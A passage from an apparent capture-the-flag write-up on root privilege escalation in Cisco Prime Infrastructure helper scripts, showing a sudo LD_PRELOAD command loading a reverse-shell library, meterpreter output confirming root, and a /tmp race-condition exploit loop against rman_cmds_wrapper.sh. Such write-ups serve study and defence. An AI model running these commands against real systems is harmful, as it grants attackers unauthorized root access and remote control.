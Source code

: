 Finally, we run the following command to gain a root-level reverse shell:

```bash
sudo LD_PRELOAD=/tmp/revshell.so /opt/CSCOlumos/rcmds/fdiskl
```

Once connected, we can verify root privileges:

```bash
meterpreter > shell
id
uid=0(root) gid=0(root) groups=0(root)
```

This is the method we actually used to solve the challenge.

---

## PrivEsc #4

While investigating the scripts, we noticed some of them write some files to `/tmp`, then run `chmod +x` on the files and execute them immediately afterward. This behavior can lead to a race condition, where we exploit the timing between writing to the files and the execution of them.

A race condition occurs when a program`s execution depends on the precise timing of multiple events. If we can predict and manipulate this timing, we can "win" the race by replacing or modifing the file the program intends to execute.

The following scripts exhibit this behavior:

- `rman_cmds_wrapper.sh`
- `shellfile_cmds_wrapper.sh`
- `sql_cmds_wrapper.sh`

Here’s an example of the relevant code from one of the scripts:

```bash
<..SNIP...>

if [  "$1" = "rmanExec.sh" ]; then
	chmod +x  /tmp/rmanExec.sh

	/tmp/rmanExec.sh

<...SNIP...>
```

#### Explaination:

If the first argument is `rmanExec.sh`, the script makes `/tmp/rmanExec.sh` executable and then runs it. We can exploit this by rewriting `/tmp/rmanExec.sh` with our payload right before it’s executed.

### Exploit

In the first session, we loop the vulnerable script with a small delay to trigger the exploit:

```bash
while true; do sudo /opt/CSCOlumos/rcmds/rman_cmds_wrapper.sh rmanExec.sh; sleep 0.01; done
```
